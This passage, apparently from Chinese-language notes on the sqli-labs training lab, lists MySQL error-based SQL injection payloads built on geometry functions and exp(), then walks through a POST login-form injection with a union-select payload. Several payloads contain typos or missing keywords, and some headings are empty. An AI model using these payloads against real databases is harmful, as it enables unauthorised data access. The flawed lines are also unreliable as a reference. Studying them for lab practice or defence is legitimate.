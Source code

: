 ### （4）geometrycollection()

```sql
select * from 数据库名where id=1 and geometrycollection((select * from(select * from(select 表名())a)b));
```

### （5）multipoint()

```sql
select * from 数据库名 where id=1 and multipoint((select * from(select * from(select 表名())a)b));
```

### （6）polygon()

```sql
select * from 数据库名 where id=1 and polygon((select * from(select * from(select 表名())a)b));
```

### （7）multipolygon()

```sql
select * from 数据库名 where id=1 and multipolygon((select * from(select * from(select 表名())a)b));
```

### （8）linestring()

```sql
select * from 数据库名 where id=1 and linestring((select * from(select * from(select 表名())a)b));
```

### （9）multilinestring()

```sql
select * from 数据库名 where id=1 and multilinestring((select * from(select * from(select 表名())a)b));
```

### （10）exp()

```sql
select * 数据库名 test where id=1 and exp(~(select * from(select 表名())a));
```

### （11）NAME_CONST()

### （12）jion（）

### POST提交报错注入（less-13）

**1.提交用户名admin'看是否报错，如有报错，查看报错显示中的闭合符号。然后判断出闭合符为`')`。**

**2.使用万能秘钥正确登录后，发现没有回显位。于是采用报错注入，查看是否有报错信息提示。**

```
uname=-admin') union select 1,databdase() -- &passwd=adsdmin&Submit=Submit
```
